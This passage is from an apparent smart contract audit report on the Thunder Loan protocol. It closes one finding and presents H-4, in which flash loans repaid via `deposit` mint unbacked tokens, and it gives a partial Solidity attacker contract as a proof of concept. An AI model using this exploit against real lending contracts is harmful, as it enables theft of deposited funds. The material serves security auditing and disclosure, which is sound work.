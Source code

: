### Tools Used
Manual Review

### Recommended Mitigation
Consider adding logic to you contract for dealing with non-standard ERC20 tokens with less than 18 decimals.

## [H-4] Flash loan can be returned using the `deposit` function, leading to stolen funds

### Relevant GitHub Links
```
https://github.com/Cyfrin/2023-11-Thunder-Loan/blob/8539c83865eb0d6149e4d70f37a35d9e72ac7404/src/protocol/ThunderLoan.sol#L147-L156

https://github.com/Cyfrin/2023-11-Thunder-Loan/blob/8539c83865eb0d6149e4d70f37a35d9e72ac7404/src/protocol/ThunderLoan.sol#L180-L217
```

### Description
The function `ThunderLoan::deposit` allows users to deposit funds into the protocol. If a user takes out a flash loan using `ThunderLoan::flashloan` function, they can return the flash loan using the deposit function. In that way they can mint to themselves `AssetToken` tokens without providing any collateral, and later redeem them, which will lead to stolen funds.

### Impact
- Users can steal funds from the protocol by returning flash loans using the deposit function.

### Proof of Concept
- Attacker contract:

```javascript
    contract DepositOverRepay is IFlashLoanReceiver {
        ThunderLoan thunderLoan;
        AssetToken assetToken;
        IERC20 s_token;

        constructor(address _thunderLoan) {
            thunderLoan = ThunderLoan(_thunderLoan);
        }

        function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address, /* initiator */
            bytes calldata /* params */
        )
            external
            returns (bool)
        {
            s_token = IERC20(token);
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            IERC20(token).approve(address(thunderLoan), amount + fee);
            thunderLoan.deposit(IERC20(token), amount + fee);

            return true;
        }

        function redeemMoney() public {
            uint256 amount = assetToken.balanceOf(address(this));
            thunderLoan.redeem(s_token, amount);
```